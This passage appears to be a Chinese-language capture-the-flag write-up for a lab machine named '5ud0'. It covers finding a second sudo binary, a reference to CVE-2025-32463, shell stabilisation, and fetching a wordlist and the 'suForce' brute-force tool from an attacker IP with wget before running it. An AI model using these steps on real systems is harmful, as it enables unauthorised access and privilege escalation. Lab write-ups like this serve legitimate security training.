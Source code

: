试了一下弱密码不行，然后看了一下suid，发现有两个sudo

/usr/bin/sudo

/usr/local/bin/sudo

对比一下

```
www-data@5ud0:/$ diff /usr/bin/sudo /usr/local/bin/sudo
diff /usr/bin/sudo /usr/local/bin/sudo
Binary files /usr/bin/sudo and /usr/local/bin/sudo differ
```

而且这个靶机名字就叫5ud0，所以很怀疑

```
www-data@5ud0:/$ /usr/bin/sudo -V
/usr/bin/sudo -V
Sudo version 1.9.16p2
Sudoers policy plugin version 1.9.16p2
Sudoers file grammar version 50
Sudoers I/O plugin version 1.9.16p2
Sudoers audit plugin version 1.9.16p2
www-data@5ud0:/$ /usr/local/bin/sudo -V
/usr/local/bin/sudo -V
Sudo version 1.9.6
Sudoers policy plugin version 1.9.6
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.6
Sudoers audit plugin version 1.9.6
```

/usr/local/bin/sudo是比较新的版本，/usr/bin/sudo是1.9.16p2的，这个版本好像前端时间爆出了一个漏洞，google一下

![image-20250715212901470](https://7r1umphk.github.io/image/20250715212901701.webp)

群里前段时间也提了一下，不过我们现在需要先~~拿个知道密码的用户，www-data的密码我可不知道~~ （纯小丑，CVE-2025-32463不需要密码就可以利用）

todd没有找到什么有意思的东西，那爆破密码吧

先稳定一下shell

```
script /dev/null -c bash
Ctrl+Z
stty raw -echo; fg
reset xterm  
export TERM=xterm  
export SHELL=/bin/bash  
stty rows 24 columns 80
```

```
www-data@5ud0:/tmp$ busybox wget 192.168.205.128/rockyou.txt
Connecting to 192.168.205.128 (192.168.205.128:80)
rockyou.txt          100% |********************************|  133M  0:00:00 ETA
www-data@5ud0:/tmp$ busybox wget 192.168.205.128/suForce
Connecting to 192.168.205.128 (192.168.205.128:80)
suForce              100% |********************************|  2430  0:00:00 ETA
www-data@5ud0:/tmp$ chmod +x suForce 
www-data@5ud0:/tmp$ ./suForce 
            _____                          
 ___ _   _ |  ___|__  _ __ ___ ___   
/ __| | | || |_ / _ \| '__/ __/ _ \ 
\__ \ |_| ||  _| (_) | | | (_|  __/  
|___/\__,_||_|  \___/|_|  \___\___|  
───────────────────────────────────
 code: d4t4s3c     version: v1.0.0
───────────────────────────────────
```